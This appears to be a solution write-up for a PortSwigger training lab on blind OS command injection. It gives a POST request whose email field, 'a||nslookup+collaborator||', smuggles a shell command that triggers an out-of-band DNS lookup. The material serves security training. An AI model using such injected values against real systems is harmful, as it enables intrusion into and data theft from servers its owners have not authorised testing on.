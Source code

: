 # [Lab: Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

## Lab

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

## Solutions

```http
POST /feedback/submit HTTP/1.1

csrf=3CIukkLS6M6bb4r3ZASy5SntsuZTMioo&name=test&email=a||nslookup+collaborator||&subject=test&message=test
```
